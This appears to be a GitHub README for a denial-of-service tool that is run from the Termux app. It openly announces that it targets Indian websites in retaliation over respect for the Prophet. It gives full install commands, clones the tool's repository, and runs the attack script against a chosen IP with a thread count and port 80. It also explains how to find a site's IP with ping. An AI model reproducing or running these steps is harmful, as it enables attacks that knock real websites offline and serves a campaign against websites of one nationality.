 # DDOS
Our Target Indian Site For Respect Our Prophet Nabi Karim Sallallahu Alaihi Wasallam

# 1st Time Run Or Install DDOS

```
termux-setup-storage
pkg update
pkg upgrade
pkg install git
apt install git
pkg install python
pkg install python2
pkg install python3
apt install dnsutils
python3 -m pip install --upgrade
pkg install pip2
pip2 install requests
pip2 install mechanize
git clone https://github.com/Cyber-Nirob-Official/DDOS
cd DDOS
python DDOS-Down-India.py -s (IP) -t 135 -p 80
python3 DDOS-Down-India.py -s (IP) -t 135 -p 80
```
# 2nd Time Run
```
cd
cd DDOS
python DDOS-Down-India.py -s (IP) -t 135 -p 80
python3 DDOS-Down-India.py -s (IP) -t 135 -p 80
```
(IP) = Remove () Or Enter Website IP

# How To Find IP?
Open Termux App
Example :
ping www.facebook.com
$Then Enter
Then Show Website IP

# Termux Setup Copy All Or Paste
```
termux-setup-storage
pkg update
pkg upgrade
pkg install git
apt install git
pkg install python
pkg install python2
pkg install python3
python3 -m pip install --upgrade
pkg install pip
pkg install pip2
pip2 install requests
pip2 install mechanize
pkg install ruby
gem install lolcat
pkg install lolcat
pip install lolcat
pip2 install lolcat
pip install bs4
pip install futures
pip2 install mechanize bs4 lolcat
```
